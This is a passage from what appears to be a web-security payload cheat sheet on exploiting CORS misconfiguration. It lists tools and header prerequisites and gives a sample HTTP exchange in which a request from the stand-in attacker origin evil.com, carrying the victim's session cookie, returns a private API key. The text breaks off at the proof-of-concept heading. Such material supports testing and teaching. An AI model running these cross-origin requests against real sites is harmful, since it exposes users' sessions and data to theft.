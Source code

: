# CORS Misconfiguration

> A site-wide CORS misconfiguration was in place for an API domain. This allowed an attacker to make cross origin requests on behalf of the user as the application did not whitelist the Origin header and had Access-Control-Allow-Credentials: true meaning we could make requests from our attacker’s site using the victim’s credentials. 

## Summary

* [Tools](#tools)
* [Prerequisites](#prerequisites)
* [Exploitation](#exploitation)
* [References](#references)

## Tools

* [Corsy - CORS Misconfiguration Scanner](https://github.com/s0md3v/Corsy/)
* [PostMessage POC Builder - @honoki](https://tools.honoki.net/postmessage.html)

## Prerequisites

* BURP HEADER> `Origin: https://evil.com`
* VICTIM HEADER> `Access-Control-Allow-Credential: true`
* VICTIM HEADER> `Access-Control-Allow-Origin: https://evil.com` OR `Access-Control-Allow-Origin: null`

## Exploitation

Usually you want to target an API endpoint. Use the following payload to exploit a CORS misconfiguration on target `https://victim.example.com/endpoint`.

### Vulnerable Example: Origin Reflection

#### Vulnerable Implementation

```powershell
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: https://evil.com
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

#### Proof of concept
